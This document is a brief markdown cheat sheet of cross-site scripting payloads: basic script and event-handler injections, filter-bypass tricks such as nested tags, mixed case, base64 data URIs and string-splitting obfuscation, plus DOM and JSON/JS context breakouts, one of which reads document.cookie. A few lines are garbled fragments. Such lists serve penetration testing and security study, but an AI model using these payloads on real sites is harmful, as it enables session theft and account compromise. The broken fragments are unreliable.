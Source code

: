 # Basic XSS Payloads

```
<script>alert(1)</script>
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<math><mi//xlink:href="data:x,<script>alert(1)</script>">
contentvisibilityautostatechange='alert(1)'
via invalid tag --
22 foo="bar<h1>">test</22>
<22 foo="bar<img src=x onerror="alert()">test</22>
```

# Bypassing Filters
```
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg><script xlink:href=data:,alert(1)></script></svg>
<svg><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a></svg>
<details open ontoggle=confirm(1)>
onToggLe='let%20x=%60javascri%60%3Blet%20y=%60pt:aler%60%3Blet%20z=%60t()%60%3Blet%20a=x+y+z%3Blocation=a'> ==>  onToggLe='let x=`javascri`;let y=`pt:aler`;let z=`t()`;let a=x y z;location=a'>

```
# DOM XSS Payloads (Assume input is reflected into JS)
```
';alert(1);// 
";alert(1);// 
</script><script>alert(1)</script>
'+document.domain+' 
"><svg onload=confirm(document.cookie)>
```
# JSON/JS Injection Payloads (Context: inside a JSON/JS response)
```
"};alert(1);//
');alert(1);//
",";alert(1);//
```
if there is **encodeurlcomponent**() function:

it escapes all the chars but not 
```A–Z a–z 0–9 - _ . ! ~ * ' ( )```


